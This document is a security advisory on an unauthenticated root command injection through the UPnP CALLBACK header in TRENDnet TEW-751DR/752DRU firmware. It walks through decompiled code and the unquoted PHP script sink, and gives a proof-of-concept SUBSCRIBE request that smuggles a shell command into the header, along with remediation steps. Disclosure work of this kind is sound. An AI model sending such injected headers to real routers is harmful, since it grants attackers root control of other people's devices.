


# TRENDnet TEW-751DR / TEW-752DRU: unauthenticated command injection through the UPnP `CALLBACK` header (`gena.cgi` → generated NOTIFY script), CWE-78

## Summary

The UPnP event endpoint `gena.cgi` on TRENDnet TEW-751DR and TEW-752DRU (firmware 1.03B01)
accepts `SUBSCRIBE` requests without authentication. It splits the `CALLBACK` header at the
first `/` into a host and a URI, and passes both to the PHP function
`GENA_notify_init()` (`htdocs/upnpinc/gena.php`), which writes them into a `#!/bin/sh` script
**without quoting**:

```php
fwrite(w, $shell_file,
    "#!/bin/sh\n".
    ...
    " -V HDR_URL=".$uri.          /* attacker controlled, unquoted */
    " -V HDR_HOST=".$host.        /* attacker controlled, unquoted */
    ...
);
```

`genacgi_main` then schedules that script with
`xmldbc_timer("NOTIFY:0:sh /var/run/<service>_<pid>.sh")`, so a `;` inside the URI terminates
the first command and everything after it runs as a normal shell command — as `root`, because
the CGI runs as root.

This is a **different entry point and a different sink** from the `soap.cgi?service=`
issue: here the input is an HTTP header and the sink is a generated shell script executed by
the UPnP timer, not `system()` inside the CGI.

## Impact

- **Impact type:** Remote Command Execution as `root`
- **Authentication required:** no
- **User interaction:** none
- **Reachability:** UPnP HTTP service, 49152/tcp (LAN side); WAN exposure not verified
- **What an attacker gets:** arbitrary commands with the privileges of the UPnP service —
  rewrite `nvram`, start `telnetd`, change the admin password, use the router as a pivot

## Affected Products

- **Vendor:** TRENDnet
- **Products:** TEW-751DR v1, TEW-752DRU v1
- **Vulnerability type:** OS Command Injection (CWE-78)

### Tested vulnerable firmware

- TEW-751DR 1.03B01 — sha256 `fe1168fc2b2bf4744df3a7145eeaf11b2c5272ae502c8f2993e5c614499322ec`
- TEW-752DRU 1.03B01 — sha256 `facbd373af3568a064e34f1a1b74f2840bd7fd5b6f3e54fe7fdcc66f7779c41a`

**Firmware download address:**

- https://download.trendnet.com/TEW-751DR/firmware/TEW-751DRv1_(FW1.03B01).zip
- https://download.trendnet.com/TEW-752DRU/firmware/TEW-752DRUv1_(FW1.03B01).zip

The whole chain is byte-identical on both models (hashes computed independently per image):

| File | TEW-751DR 1.03B01 | TEW-752DRU 1.03B01 |
|---|---|---|
| `htdocs/upnpinc/gena.php` | `2934eb2052ea14a0360efaa76567f966f89ff7c45178743d555b300e7b70a5cb` | same |
| `htdocs/upnp/run.NOTIFY.php` | `5dc9693fe1e736e79d5cb87d9489aa74b008dbe0ebe3ef2f0029dba52a1163ad` | same |
| `etc/services/HTTP/httpcfg.php` | `4119825e5cb7044f3ef5313d90b76a05bbe215c2be0bc61ac0f57b238cdccbd3` | same |
| `etc/services/HTTP/httpsvcs.php` | `491199729c4fc17c6db57afd9c8c8e8b7f2f2f263113e72e57f0631e0f95eccd` | same |

`cgibin` itself differs between the two models (`751DR` md5 `335299e25ae57a6a6d1547d4dded1ee7`,
`752DRU` md5 `6b326314eddda351877c220a86aba9f3`), so `genacgi_main` was decompiled on both
images: the SUBSCRIBE branch (`FUN_0040e740` on 751, `FUN_0040e5d0` on 752) contains the same
`getenv("HTTP_CALLBACK")` → `strchr(..., '/')` → `sprintf` → `xmldbc_timer` sequence at
`0x40e740` / `0x40e5d0` respectively.

## Attack Vector

- **Entry point:** `SUBSCRIBE /gena.cgi?service=<any>` on the UPnP HTTP service (49152/tcp)
- **Injection header:** `CALLBACK: <http://<host>/<uri>>`
- **Required headers:** `NT: upnp:event`, `TIMEOUT: Second-1800`
- **Authentication:** not required
- **User interaction:** not required

`gena.cgi` is not a file in the image; it is a symlink created at boot by
`etc/services/HTTP/httpsvcs.php:135`:

```php
startcmd("ln -s /htdocs/cgibin ".$vdir."/gena.cgi");
```

`main()` in `htdocs/cgibin` dispatches on `basename(argv[0])`, so `gena.cgi` reaches
`genacgi_main` (`0x40ec78`), which performs **no authentication** — it only checks
`REQUEST_METHOD` and calls the SUBSCRIBE branch.

## Technical Details

### 1. The header reaches PHP unmodified

```c
pcVar2 = getenv("HTTP_CALLBACK");            /* fully attacker controlled */
...
puVar5 = strchr(pcVar2 + 7, '/');            /* split host / URI, no escaping */
if (puVar5) {
  *puVar5 = '\0';
  sprintf(acStack_228,
    "%s\nMETHOD=SUBSCRIBE\nINF_UID=%s\nSERVICE=%s\nHOST=%s\nURI=/%s\n"
    "TIMEOUT=%d\nREMOTE=%s\nSHELL_FILE=%s/%s_%d.sh",
    "/htdocs/upnp/run.NOTIFY.php", param3, param_1, pcVar2 + 7,
    puVar5 + 1, iVar7, param8, "/var/run", param_1, getpid());
  xmldbc_ephp(0, 0, acStack_228, stdout);    /* runs run.NOTIFY.php -> gena.php */
  sprintf(acStack_228, "NOTIFY:0:sh %s/%s_%d.sh", "/var/run", param_1, getpid());
  xmldbc_timer(0, 0, acStack_228);           /* the generated script is executed */
}
```

### 2. PHP writes the values into a shell script

`htdocs/upnpinc/gena.php::GENA_notify_init()` concatenates `$uri` and `$host` into the file
with no quoting and no escaping (the write block is shown in Figure 2). The script starts with
`#!/bin/sh` and is executed by the UPnP timer, so any shell metacharacter in the URI or the
host becomes part of the command line.

### 3. Why `;` is enough

The generated line is

```
xmldbc -P /htdocs/upnp/NOTIFY.WANIPConnection.1.php -V INF_UID=... -V HDR_URL=aaa;touch /var/tmp/gena/PWNED;bbb -V HDR_HOST=...
```

The shell runs `xmldbc ... -V HDR_URL=aaa`, then `touch /var/tmp/gena/PWNED`, then `bbb ...` —
the injected command runs with the privileges of the CGI.

## Proof of Concept (PoC)

### Steps to reproduce

1. Extract the firmware and confirm the file hashes above.
2. Generate the NOTIFY script with the firmware's **own** `gena.php` (php-cli), passing the
   `host` and `uri` values that `genacgi_main` would extract from the `CALLBACK` header.
3. Execute the generated script with the firmware's **own** `busybox sh` inside the extracted
   root filesystem (`qemu-user` + `chroot`), or send the request to a device with UPnP enabled.

### Example request

```http
SUBSCRIBE /gena.cgi?service=WANIPConn1 HTTP/1.1
Host: 192.168.10.1:49152
NT: upnp:event
TIMEOUT: Second-1800
CALLBACK: <http://10.0.0.9/aaa;touch /var/tmp/gena/PWNED;bbb>
```

### Verification

**Figure 1 — control vs. payload.** The only difference between the two runs is the URI part of
`CALLBACK`: `aaa` versus `aaa;touch /var/tmp/gena/PWNED;bbb`. The generated script, the shell
used to run it and the root filesystem are identical. In the control run the marker file is not
created; in the payload run it is created, owned by `root`.



**Figure 2 — the sink, verbatim from the image.** `gena.php` writes `-V HDR_URL=$uri` without
quoting, and `genacgi_main` hands the resulting script to `xmldbc_timer`.



The full replay transcript (same text that Figure 1 shows) is attached as
`CVE5-gena-replay-transcript.txt`, so the figure can be checked line by line.

## Limitations

- **No end-to-end trigger.** The device's PHP interpreter (`phpserver`) and the `xmldbc` timer
  were not executed; the script was produced by the firmware's own `gena.php` under php-cli and
  executed by the firmware's own `busybox sh`. What is proven: the header→PHP path, the
  unquoted concatenation, the generated script contents, and that this script executes the
  injected command. Not proven: that the device's timer really fires the script.
- Verified on emulated firmware only, not on physical hardware.
- WAN-side reachability of the UPnP service was not verified; the CVSS vector uses `AV:A`.
- `GENA_notify_init()` returns early if `INF_UID` (the `ServerId` from the httpd config) does
  not resolve to an interface; a non-empty `ServerId` is the normal case on this firmware but
  was not verified on a device.
- The vendor has not been contacted about this issue.

## Suggested Remediation

- Quote the values with `escapeshellarg()` when `gena.php` writes the NOTIFY script, or stop
  generating shell scripts from HTTP headers entirely.
- Reject `CALLBACK` URIs that contain shell metacharacters (`;`, `|`, `&`, `$(`, backtick,
  newline) and enforce the RFC 6265-style URI grammar for `CALLBACK`.
- Require an authenticated UPnP session for `gena.cgi`.

## CVSS

`CVSS:3.1/AV:A/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` — 7.5 (High)

`AC:H` reflects the unverified PHP/timer step; if the timer is confirmed to fire reliably the
score is `CVSS:3.1/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` (8.7).

## Timeline

- 2026-10-30 — issue found and reproduced on the extracted firmware; advisory published.
